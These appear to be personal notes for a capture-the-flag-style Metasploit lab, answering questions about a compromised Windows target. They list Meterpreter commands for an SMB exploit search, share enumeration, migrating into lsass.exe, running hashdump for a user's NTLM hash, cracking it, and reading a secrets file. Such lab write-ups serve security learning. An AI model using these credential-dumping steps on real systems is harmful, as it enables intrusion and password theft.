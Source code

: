 Once any additional tool is loaded using the `load` command, you will see new options on the `help` menu. The example below shows commands added for the Kiwi module (using the `load kiwi` command). These will change according to the loaded menu, so running the `help` command after loading a module is always a good idea.![[Pasted image 20240816025559.png]]


0) Gaining acces using SMB exploit for windows
	`search category:exploit smb`

![[Pasted image 20240816150220.png]]
![[Pasted image 20240816150002.png]]

![[Pasted image 20240816150022.png]]


1) What is the computer name?
	`sysinfo`
	
![[Pasted image 20240816150311.png]]

2) What is the target domain?
![[Pasted image 20240816150558.png]]

3) What is the name of the share likely created by the user?
	 `background` 
	 `search category:post gather enum_shares`
	 
	 `sessions -i 1`
	 ```run post/windows/gather/enum_shares ```
	 
![[Pasted image 20240816151154.png]]

4) What is the NTLM hash of the jchambers user?
	`migrate to the "lsass.exe" process first (ps will list its PID)`
	`ps`
	`ps | grep lsass.exe`

	`migrate 760(PID)`
	`hashdump`
	
![[Pasted image 20240816151936.png]]

5) What is the cleartext password of the jchambers user?
	we need to use a NTLM hash cracker
	![[Pasted image 20240816152250.png]]

6) Where is the "secrets.txt"  file located? (Full path of the file)
	`search -f secrets.txt`

7) What is the Twitter password revealed in the "secrets.txt" file?
	`cat secrets.txt ('full path')`
	![[Pasted image 20240816152631.png]]

